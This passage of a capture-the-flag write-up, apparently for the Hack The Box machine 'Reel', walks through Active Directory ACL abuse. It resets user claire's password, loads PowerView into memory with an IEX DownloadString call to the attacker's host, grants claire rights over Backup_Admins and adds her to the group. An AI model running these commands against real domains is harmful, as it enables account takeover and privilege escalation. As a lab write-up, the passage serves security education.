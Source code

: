 ```
OpaqueLength          : 0
ObjectSID             : S-1-5-21-2648318136-3688571242-2924127574-1130
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-2648318136-3688571242-2924127574-1107
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
```

It seems so! We should be able to set the password we want now:

```
> $secPaswd = ConvertTo-SecureString -String 's0mepassw0rd' -AsPlainText -Force
> Set-ADAccountPassword -Reset -NewPassword $secPaswd -Identity claire
```

We should be able to login as Claire with `s0mepassw0rd` as password now...

```
# ssh claire@10.10.10.77
claire@10.10.10.77's password:

Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

claire@REEL C:\Users\claire>
```

Amazing!

## Claire

Ok, we are near! We only need to do something similar for the `BACKUP_ADMINS` group see what being part of it means.

Oh, of course, since we changed users, we need to load `PowerView` again:

```
> powershell
> IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.12.157/PowerView.ps1')
```

And again guided by the fantastic [*An Ace Up The Sleeve*][6] article, we can grant ourselves all ACL rights over `BACKUP_ADMINS`, since we have the `WriteDacl` permission:

```
> Add-DomainObjectACL -TargetIdentity 'Backup_Admins' -PrincipalIdentity claire -Rights All
```

With these rights, we should be able to add ourselves to the group:

```
> net group Backup_Admins /add claire
```


[1]: https://stackoverflow.com/questions/21741803/powershell-securestring-encrypt-decrypt-to-plain-text-not-working
[2]: https://stackoverflow.com/questions/18747942/how-to-use-a-powerhsell-serialized-object
[3]: https://github.com/BloodHoundAD/Bloodhound/wiki
[4]: https://media.defcon.org/DEF%20CON%2024/DEF%20CON%2024%20presentations/DEFCON-24-Robbins-Vazarkar-Schroeder-Six-Degrees-of-Domain-Admin.pdf
[5]: https://github.com/BloodHoundAD/BloodHound/wiki/Data-Collector
[6]: https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf
[7]: https://github.com/PowerShellMafia/PowerSploit.git
[8]: https://www.hackthebox.eu/home/users/profile/1190